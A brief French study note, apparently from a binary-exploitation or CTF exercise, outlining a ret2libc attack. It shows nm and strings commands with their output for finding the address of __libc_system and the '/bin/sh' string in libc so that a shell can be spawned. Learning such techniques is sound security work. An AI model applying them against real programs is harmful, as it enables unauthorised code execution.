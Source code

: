 ## Ret2libc - Exploit

On veut faire:

``` C
int system(const char *command);
```

Il nous faut:

 * L'adresse de `__libc_system`
 * Un pointeur vers `"/bin/sh"`

``` bash
$ nm -D libc6.so | grep __libc_system
0003e3e0 T __libc_system
```

``` bash
$ strings --radix=x libc.so | grep "/bin/sh"
15f771 /bin/sh
```
